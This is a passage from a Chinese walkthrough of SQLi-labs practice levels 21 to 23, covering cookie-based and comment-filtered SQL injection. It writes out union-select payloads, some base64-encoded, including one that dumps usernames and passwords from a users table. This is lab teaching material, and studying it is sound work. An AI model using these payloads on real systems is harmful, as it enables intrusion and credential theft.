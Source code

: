 2.判断注入的位置

`-admin') union select 1,2,3 #`

`LWFkbWluJykgdW5pb24gc2VsZWN0IDEsMiwzICM=`

发现到3的时候可行，那么就可以直接在相应位置上进行爆信息操作了，其实和最开始的几关一样的步骤了

最终payload：

`-admin') union select 1,2,group_concat(0x7c,username,0x7e,password,0x7c) from users #`

`LWFkbWluJykgdW5pb24gc2VsZWN0IDEsMixncm91cF9jb25jYXQoMHg3Yyx1c2VybmFtZSwweDdlLHBhc3N3b3JkLDB4N2MpIGZyb20gdXNlcnMgIw==`


***
# less 22(基于错误的双引号字符型Cookie注入)
## 原理

其实和上题是一样的原理，只不过这一关改变了闭合方式而已，将上一关中的')变为"即可，其余步骤一致

## 步骤

样例：

`-admin" union select 1,2,3 #`

`LWFkbWluIiB1bmlvbiBzZWxlY3QgMSwyLDMgIw==`

***
# less 23(基于错误的，过滤注释的GET型)
## 原理
根据题目提示，基于错误的，还会被过滤注释的GET型，也就是说无法使用注释符了，查看其源码发现，

[![BPNdK0.jpg](https://s1.ax1x.com/2020/10/21/BPNdK0.jpg)](https://imgchr.com/i/BPNdK0)

只要有注释符就会被过滤掉，那么我们就要想一种新的方法将语句插进去，

之前我们使用注释符是要将sql中后面剩余的语句注释掉，

那样我们的语句就是整个$sql的尾部，

而现在，不能注释，语句就要插在$sql的中间部分，

就需要插入的同时将断开的前后分别与插入语句的头和尾连接起来，

我们可以结合使用'.......and '达到目的

## 步骤
1.构造payload闭合语句

`?id=-1' union select 1,2,3 '`
